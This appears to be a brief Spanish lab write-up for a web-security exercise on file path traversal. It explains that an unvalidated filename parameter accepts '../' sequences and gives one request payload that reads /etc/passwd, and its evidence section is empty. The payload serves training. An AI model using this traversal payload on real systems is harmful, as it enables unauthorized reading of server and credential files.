

# Lab 01 - File Path Traversal

## Objetivo
Obtener el archivo `/etc/passwd` 

## Vulnerabilidad
La aplicación no valida correctamente el parámetro de `filename`, permitiendo secuencias `../`.

## Explotación

```bash
/image?filename=../../../../etc/passwd
```
## Evidencia
